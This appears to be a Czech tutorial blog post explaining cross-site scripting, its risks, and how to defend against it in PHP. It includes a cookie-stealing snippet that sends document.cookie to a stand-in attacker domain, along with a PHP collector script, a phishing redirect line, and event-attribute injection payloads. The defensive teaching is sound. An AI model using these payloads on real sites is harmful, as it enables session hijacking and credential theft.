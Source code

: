 ```yaml
---
title: "Využití XSS díry"
headline: "Využití XSS chyby"
description: "Jak je možné využít XSS díru na webové stránce a jak XSS „opravit“."
date: "2014-06-12"
last_modification: "2014-06-17"
status: 1
tags: ["zabezpeceni"]
format: "html"
---
```


<p>XSS (Cross-site scripting) je metoda využívající <a href="/bezpecnost">bezpečnostní</a> chyby webu, konkrétně nedostatečné ošetření dat.</p>

<p>Typicky spočívá ve vložení škodlivého JS kódu. Útok bývá často podceňován, přestože přináší <b>obrovská risika</b>.</p>

<ol>
  <li>
    <p><b>Krádež cookie</b> – JavaScript má často přístup k datům identifikujícím přihlášeného uživatele. Obsah cookie je v <code>document.cookie</code>.</p>
       
    <p>Útočník vložením škodlivého kódu <i>pingne</i> skript na vlastním webu s předanou hodnotou cookie. Potom už stačí, aby napadenou stránku <b>navštívil administrátor</b> – jeho cookie se tak pošle útočníkovi. Zákeřnost tohoto útoku spočívá ve skutečnosti, že je velmi obtížné si napadení všimnout. Na venek se web chová normálně.</p>
    <p>Příklad JS kódu, který je potřeba dostat na server.</p>
    
    <pre><code>var ping = new Image();
ping.src = "http://domena-utocnika.cz/?" + 
            encodeURI(document.cookie);</code></pre>
    
    <p>PHP skript pro uložení obsahu:</p>
    
    <pre><code>file_put_contents(
	"cookies.txt", 
	$_SERVER["QUERY_STRING"] . "\n", 
	FILE_APPEND
);</code></pre>
    
    <p>Přístupu k obsahu cookie z JS <b>lze zabránit</b> nastavením jako <i>httponly</i> v PHP funkci <a href="http://cz2.php.net/manual/en/function.setcookie.php"><code>setcookie</code></a> nebo <a href="http://cz2.php.net/manual/en/function.session-set-cookie-params.php"><code>session_set_cookie_params</code></a>.</p>
  </li>
  
  <li>
    <p><b>Přesměrování na vlastní web</b> – v případě, že cookie k přihlášení nestačí, nebo je cílem získat hesla, dá se použít technika <i>phishingu</i>. Přesměrovat návštěvníka webu JavaScriptem na vlastní stránku s <b>přihlašovacím formulářem</b> zkopírovaným z originální stránky.</p>
    
    <pre><code>window.location = "http://domena-utocnika.cz";</code></pre>
  </li>
  
  <li>
    <p><b>Modifikace stránky</b> – jelikož JS má takřka neomezenou moc v manipulaci s webovou stránkou, může útočník využitím XSS díry za účelem výdělku přidat na děravou stránku <b>reklamu</b>, <b>affiliate odkazy</b> a podobně.</p>
  </li>
  
  <li>
    <p><b>Poškození dobrého jména</b> – vložením spojení na nějaký podezřelý web může stránce přiřknout ve vyhledávačích označení jako malware.</p>
  </li>
</ol>

<h2 id="priklad">Příklad útoku</h2>

<h3 id="html-znacky">Interpretace HTML značek</h3>

<p>V případě, že se obsah, který může ovlivnit návštěvník, vypisuje včetně HTML značek, není problém přidat kus škodlivého JavaScriptu.</p>

<pre><code>&lt;script>
alert("XSS");
&lt;/script></code></pre>

<p>Potřebujeme-li umožnit vkládat HTML značky, nezbývá než použít nějaký nástroj pro <a href="/vycisteni-kodu">pročištění kódu</a>, kde jde přímo vyjmenovat povolené HTML značky a atributy.</p>

<p>Není-li potřeba HTML značky interpretovat, postačí PHP funkce <code>htmlspecialchars</code>.</p>

<h3 id="html-atributy">Interpretace v HTML atributech</h3>

<p>Méně známý problém je obsah v <b>HTML atributech</b>. V PHP existuje funkce <code>strip_tags</code>, která slouží k odstranění všeho, co vypadá jako HTML značka (tedy i třeba smajlíka <code>&lt;3</code> nebo výrazu <code>a&lt;b</code>, což bývá nežádoucí).</p>

<p>Zásadní problém této funkce tkví v neodstraňování atributů. Použitím <code>strip_tags</code> a povolení byť jen jediné HTML značky <b>vznikne XSS díra</b>.</p>

<p>Škodlivý JavaScript je totiž možné vkládat i do různých <code>onNěco</code> událostí:</p>

<pre><code>&lt;b onmousemove='alert("XSS")'>&lt;b></code></pre>

<p>Funkce <code>strip_tags</code> nastavená na povolení tučného písma (značka <code>&lt;b></code>) tento kód nechá beze změn.</p>

<p>Jelikož <code>strip_tags</code> ponechá i <i>inline</i> styly, může útočník výše uvedený HTML kód naposicovat přes celou stránku s průhledným pozadím. A po provedení škodící akce element zrušit, aby se web nechoval podezřele.</p>

<pre><code>&lt;span 
onmousemove="alert('XSS'); this.parentNode.removeChild(this)" 
style="position: fixed; top: 0; left: 0; width: 100%; height: 100%; background: transparent">
&lt;/span></code></pre>

<p><a href="http://kod.djpw.cz/gxdb">Živá ukázka</a></p>

<p>Při vypisování obsahu <b>uvnitř HTML atributů</b> je tedy nutné myslet na to, že když v kódu:</p>

<pre><code>&lt;h1 title='<b>%vypis%</b>'>Nadpis&lt;/h1></code></pre>

<p>Nahradíme <code>%vypis%</code> řetězcem <code>' onmousemove='alert("XSS")</code>, vznikne:</p>

<pre><code>&lt;h1 title='' onmousemove='alert("XSS")'>Nadpis&lt;/h1></code></pre>

<p>Což je funkční a <b>nebezpečný výsledek</b>.</p>

<h2 id="obrana">Obrana před XSS</h2>

<p>Důsledná obrana proti XSS spočívá v ošetřování všech dat, která se vypisují na stránce.</p>

<p>V PHP je k tomu možné použít funkci <code>htmlspecialchars</code>:</p>

<pre><code>$text = htmlspecialchars($text, ENT_QUOTES);</code></pre>

<p>Uvedení <code>ENT_QUOTES</code> zajistí právě ochranu v HTML atributech – tj. nenechá atribut uzavřít jednoduchou nebo dvojitou uvozovkou, což zabrání zapsání škodlivých <code>onNěco</code> atributů.</p>

<p>Výše uvedené použití funkce <code>htmlspecialchars</code> nahradí entitami všechny řídicí HTML znaky: <code>&lt;</code>, <code>&gt;</code>, <code>&amp;</code>, <code>&quot;</code> a <code>'</code>.</p>

<p>Ošetření výstupu je nutné použít i u všelijakých <b>administrátorských akcí</b>. Mohlo by se stát, že by útočník administrátora odkázal na URL, kde by byl kus <b>škodlivého JS kódu</b>, který by se bez ošetření po prokliknutí provedl.</p>